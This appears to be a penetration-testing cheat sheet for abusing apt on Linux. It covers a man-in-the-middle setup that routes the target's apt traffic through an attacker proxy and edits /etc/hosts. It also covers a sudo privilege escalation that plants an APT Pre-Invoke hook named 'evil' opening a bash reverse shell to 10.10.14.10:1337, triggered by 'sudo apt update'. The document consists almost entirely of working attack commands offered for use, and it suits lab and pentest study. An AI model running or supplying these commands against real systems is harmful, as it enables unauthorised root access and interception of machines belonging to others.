 ```yaml
---
title: "Apt"
date: 2024-7-4
tags: ["apt", "update", "privesc", "pre-invoke", "sudo"]
---
```


---
### MITM (Man-in-the-Middle)

#### 1. Add proxy path in target machine

```bash
export http_proxy=http://10.10.14.10:8888
```

#### 2. Start proxy in local machine

```bash
# Tool
pip3 install --upgrade proxy.py
```

```bash
# Start a proxy server
proxy --hostname 0.0.0.0 --port 8888
```

#### 3. Redirect traffic to our server

```bash
# Edit /etc/hosts
10.10.14.10 apt.update.example.com
```

### SUDO

```bash
# Create a malicious config
echo 'APT::Update::Pre-Invoke {"bash -c '\''bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'\''"}' > /etc/apt/apt.conf.d/evil
```

```bash
# Exploit
sudo apt update -y
```

<br>